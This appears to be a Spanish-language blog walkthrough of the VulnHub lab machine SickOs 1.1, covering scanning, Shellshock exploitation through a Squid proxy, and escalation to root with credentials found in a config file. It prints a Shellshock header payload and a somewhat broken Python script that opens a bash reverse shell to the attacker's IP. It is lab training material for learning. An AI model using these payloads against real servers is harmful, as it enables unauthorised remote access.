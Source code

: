 ```yaml
---
title: Sickos 1
author: ssanjua
datetime: 2024-09-10T17:00:12.000+00:00
slug: SickOS 1 - Vulnhub
featured: true
tags:
  - Vulnhub
  - Hacker
  - Easy
  - Hack the box
description:
  Lorem ipsum dolor sit amet, consectetur adipiscing elit. Sed ut purus eget sapien.
---
```


- **Name**: SickOs: 1.1
- **Date release**: 11 Dec 2015
- **Author**: [D4rk](https://www.vulnhub.com/author/d4rk,199/)
- **Series**: [SickOs](https://www.vulnhub.com/series/sickos,70/)
- 
## Description

This CTF gives a clear analogy how hacking strategies can be performed on a network to compromise it in a safe environment. This vm is very similar to labs I faced in OSCP. The objective being to compromise the network/machine and gain Administrative/root privileges on them

## About Release

Name........: SickOs1.1
Date Release: 11 Dec 2015
Author......: D4rk
Series......: SickOs
Objective...: Get /root/a0216ea4d51874464078c618298b1367.txt
Tester(s)...: h1tch1
Twitter.....: https://twitter.com/D4rk36

---
## Reconocimiento

Primero tratamos de reconocer la IP de nuestro objetivo con arp-scan.

```bash
sudo arp-scan -I eth0 --localnet --ignoredups
```

![Descripción](../../assets/img-content/sickOs(1).png)

Nuestro target es el: `192.168.128.132` procedemos a hacer un escaneo nmap para ver que puertos tiene abiertos y descubrimos el puerto **22** y el **3128**.

```bash
nmap -p- --open -sT -vvv --min-rate 5000 -n -Pn 192.168.128.132 -oG allPorts
```

Not shown: 65532 filtered tcp ports (no-response), 1 closed tcp port (conn-refused)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack
3128/tcp open  squid-http syn-ack

Datos que extraemos del reconocimiento: 
- Squid-http syn-ack
- Puertos filtrados

![Descripción](../../assets/img-content/sickOs(2).png)

Investigamos un poco sobre los **Server Squid**:

Squid is a caching proxy for the Web supporting HTTP, HTTPS, FTP, and more. It reduces bandwidth and improves response times by caching and reusing frequently-requested web pages. Squid has extensive access controls and makes a great server accelerator. It runs on most available operating systems, including Windows and is licensed under the GNU GPL. [Definicion web](https://www.squid-cache.org/)

Por lo tanto sabemos que lo que esta haciendo el puerto es servir como proxy, por lo que podemos pensar que se esta corriendo un server en el puerto 80 y que esta usando el Squid como proxy:

Intentamos hacer un curl la ip intermediando un proxy por el puerto **3128** que es el puerto abierto atraves de el servidor Squid proxy.

![Descripción](../../assets/img-content/sickOs(4).png)

![Descripción](../../assets/img-content/sickOs(5).png)

![Descripción](../../assets/img-content/sickOs(6).png)

Ahora podemos intentar listar directorios usando el proxy.

![Descripción](../../assets/img-content/sickOs(7).png)

Al descubrir un directorio **cgi-bin** nos alerta porque sabemos que si existe este es probable que estemos en presencia de una probable **Shell Shock** [ShellShock - CGI](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi)

Vemos si obtenemos algo mas de este dir:

![Descripción](../../assets/img-content/sickOs(10).png)
![Descripción](../../assets/img-content/sickOs(9).png)

Buscamos por la web mas información acerca de los **Shell Shock** y encontramos un viejo articulo [Shell Shock](https://blog.cloudflare.com/inside-shellshock/)

>For example, if example.com was vulnerable then

```bash
curl -H "User-Agent: () { :; }; /bin/eject" http://example.com/
```

Lo intentamos cambiando la instruccion, usando solo la cabecera del ejemplo:

![Descripción](../../assets/img-content/sickOs(11).png)

Efectivamente tenemos ejecución de comando, por lo que vamos a intentar obtener una **Reverse shell** atraves de un script de python:

```python
#!/user/bin/python3
    
 import sys, signal, requests
 import threading
from pwn import *

def def_handler(sig, frame):
	print("\n[!] - exiting... \n")
	sys.exit(1)
	signal.signal(signal.SIGINT, def_handler)
	main_url = "http://192.168.128.132/cgi-bin/status"
	squid_proxy = {"http": "http://192.168.128.132:3128"}

def shellshock_attack():
	headers = {'User-Agent': "() { :; };
	echo; /bin/bash -c '/bin/bash -i dev/tcp/192.168.128.131/443 0>&1'"}
	r = requests.get(main_url, headers=headers, proxies=squid_proxy) 

if __name__ == '__main__':
	try:
		threading.Thread(target=shellshock_attack, args()).start()
	except Exception as e:
		log.error(str(e))
```

Ejecutamos mientras escuchamos por el puerto que elegimos en el script:

![Descripción](../../assets/img-content/sickOs(22).png)

Lo logramos, estamos dentro de la maquina victima y podemos ejecutar comandos, ahora tenemos que escalar nuestro privilegio.

Exploramos y encontramos una info interesante dentro del config.php en /var/www/wolfcms (que estaba en el robots.txt pero decidí no explorar esa via)

Dentro de este archivo estan las credenciales para autenticarse en la base de datos, tenemos el *User* y *Password* que podemos utilizar para intentar escalar privilegios en la maquina.

- User: 'root'
- Password: 'john@123'


![Descripción](../../assets/img-content/sickOs(17).png)

La shell es antigua por lo que su googleas el output siguiente te aconsejan actualizar la shell.

![Descripción](../../assets/img-content/sickOs(18).png)

Actualizamos e intentamos autenticar con las credenciales encontradas:

```python
python -c 'import pty;pty.spawn("/bin/bash")'
```

![Descripción](../../assets/img-content/sickOs(19).png)

Pues si! Funcionó, lo intentamos de nuevo y... 

![Descripción](../../assets/img-content/sickOs(20).png)

Ya somos **root**.

![Descripción](../../assets/img-content/sickOs(21).png)

Flag encontrada!